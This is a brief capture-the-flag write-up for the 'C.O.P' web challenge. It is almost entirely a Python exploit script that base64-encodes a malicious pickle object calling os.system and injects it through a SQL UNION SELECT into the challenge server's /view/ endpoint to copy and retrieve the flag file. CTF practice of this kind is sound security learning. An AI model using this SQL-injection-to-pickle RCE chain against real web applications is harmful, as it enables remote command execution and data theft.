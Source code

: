 ```yaml
---
title: "C.O.P"
date: 2024-01-02 00:08:00 +0800
categories: [Writeups, Jeopardy-CTF]
tags: [web, ctf, sqli, pickle, python]
image:
  path: /banners/cop.png
---
```




> Description :The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!
{: .prompt-info }



# Solution:

```py
import pickle
import base64
import os
import requests

# Payload to be executed on the server
payload = 'cp flag.txt application/static/achux21.txt'

# Class definition for creating a serialized payload using Pickle
class RCE:
    def __reduce__(self):
        return os.system, (payload,)

# If the script is run directly, not imported as a module
if __name__ == '__main__':
    # Serialize the payload using Pickle and encode it in base64
    var = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii')

# Craft a URL to trigger the SQL injection vulnerability
# The UNION SELECT statement is used to inject the serialized payload
r = requests.get(f"http://167.99.82.136:30931/view/%27%20UNION%20SELECT%27{var}")

# Retrieve the result of the executed payload
flag = requests.get(f"http://167.99.82.136:30931/static/achux21.txt")

# Print the result (flag)
print(flag.text)
```

# Bye

# ![image](https://y.yarn.co/787d48e3-8bf8-4364-91d4-98e55ef95579_text.gif)
